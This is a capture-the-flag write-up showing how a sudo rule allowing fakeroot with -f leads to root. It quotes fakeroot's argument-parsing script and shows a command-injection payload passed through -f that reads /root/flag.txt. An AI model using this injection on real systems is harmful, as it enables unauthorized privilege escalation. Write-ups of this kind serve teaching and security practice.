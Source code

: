 # Fake news

Once connected we discover that the system is in read only.

We can not create file nowhere on the disk.

We can use `sudo -l` to list sudo privileges : 

```bash
$ sudo -l
Matching Defaults entries for user on 097e9eba615d:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User user may run the following commands on 097e9eba615d:
    (ALL) NOPASSWD: /usr/bin/fakeroot -f *
```

We can run fakeroot as root, and specify a "fakedbin" `-f|--faked fakedbin` 

Fakeroot is open source, and we can discover the source code on the following link : 

- [https://github.com/mackyle/fakeroot](https://github.com/mackyle/fakeroot)

By reading the source code we discover the following the file which is used to parse fakeroot arguments : 

- [https://github.com/mackyle/fakeroot/blob/787d7578282afa0bbd0adcebdb1ee64801749bad/scripts/fakeroot.in#L9](https://github.com/mackyle/fakeroot/blob/787d7578282afa0bbd0adcebdb1ee64801749bad/scripts/fakeroot.in#L9)

As the sudo rules told us, we can use `-f` argument. The source code is : 

```bash
while test "X$1" != "X--"; do
  case "$1" in
    -l|--lib)
       shift
       LIB=`eval echo "$1"`
       PATHS=
       ;;
    -f|--faked)
       shift
       FAKED="$1"
       ;;
    
    ...
    ...

if test -n "$FAKEROOTKEY"
then
    fatal "FAKEROOTKEY set to $FAKEROOTKEY" \
          "nested operation not yet supported"
fi

unset FAKEROOTKEY
KEY_PID=`eval $FAKED $FAKEDOPTS $PIPEIN`
FAKEROOTKEY=`echo $KEY_PID|cut -d: -f1`
PID=`echo $KEY_PID|cut -d: -f2`

```

The application put our value in "FAKED" variable. Few lines later this value is used in "eval" command, allowing command injection.

We can use the following exploit to get the flag: 

```bash
$ sudo fakeroot -f '$(cat /root/flag.txt)'
/usr/bin/fakeroot: 1: eval: RM{Omg_Fakeroot_is_Fak3???}: not found
fakeroot: error while starting the `faked' daemon.
/usr/bin/fakeroot: 1: kill: Usage: kill [-s sigspec | -signum | -sigspec] [pid | job]... or
kill -l [exitstatus
``` 